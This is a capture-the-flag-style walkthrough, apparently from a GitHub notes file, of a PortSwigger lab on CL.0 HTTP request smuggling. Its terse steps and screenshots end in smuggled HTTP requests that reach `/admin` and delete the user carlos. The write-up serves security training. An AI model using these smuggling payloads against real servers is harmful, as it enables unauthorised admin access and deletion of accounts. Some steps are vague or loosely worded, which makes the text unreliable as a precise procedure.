# CL.0 request smuggling

## This lab is vulnerable to CL.0 request smuggling attacks. The back-end server ignores the `Content-Length` header on requests to some endpoints.

## To solve the lab, identify a vulnerable endpoint, smuggle a request to the back-end to access to the admin panel at `/admin`, then delete the user `carlos`.

## This lab is based on real-world vulnerabilities discovered by PortSwigger Research. For more details, check out [Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling](https://portswigger.net/research/browser-powered-desync-attacks#cl.0).

step 1

open admin panel into browser



step 2
change HTTP/2 to HTTP/1.1
add header body userid=test



step 3
add transfer-encoding: chunked



step 4

remove header
content-Length
transfer-encoding
cookie-session



step 5
check resource folder and check status code for svg



step 6
send blog.svg to repeater



step 7
change get request to post request



step 8

remove extra header


step 9

add header userid=test



step 10
remove cookie header



step 11



step 12
add

```http
GET / HTTP/1.1
foo: x
```



step 13

```http
Content-Length: 27

GET /admin HTTP/1.1
foo: x
```



step 14

```http
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
foo: x
```




